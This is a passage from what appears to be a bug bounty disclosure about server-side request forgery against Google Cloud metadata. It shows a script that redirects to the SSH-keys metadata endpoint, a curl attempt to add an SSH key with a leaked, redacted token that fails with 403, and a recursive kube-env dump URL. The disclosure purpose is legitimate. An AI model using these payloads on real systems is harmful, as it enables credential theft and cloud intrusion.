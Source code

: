```html
<script>
window.location="http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json";
</script>
```
{F289081}

**Can I add my SSH key using the leaked token? No**

```bash
curl -X POST "https://www.googleapis.com/compute/v1/projects/███/setCommonInstanceMetadata" -H "Authorization: Bearer ██████████████" -H "Content-Type: application/json" --data '{"items": [{"key": "0xACB", "value": "test"}]}'
```
```json
{
 "error": {
  "errors": [
   {
    "domain": "global",
    "reason": "forbidden",
    "message": "Required 'compute.projects.setCommonInstanceMetadata' permission for 'projects/███████'"
   },
   {
    "domain": "global",
    "reason": "forbidden",
    "message": "Required 'iam.serviceAccounts.actAs' permission for 'projects/███████'"
   }
  ],
  "code": 403,
  "message": "Required 'compute.projects.setCommonInstanceMetadata' permission for 'projects/████████'"
 }
}
```

I checked the scopes for this token and there was no read/write access to the Compute Engine API:
```bash
curl "https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=██████████████████"
```
```json
{
 "issued_to": "███████",
 "audience": "███",
 "scope": "https://www.googleapis.com/auth/cloud-platform",
 "expires_in": 1307,
 "access_type": "offline"
}
```

### 2 - Dumping kube-env

I created a new store and pulled attributes from this instance recursively: http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/?recursive=true&alt=json
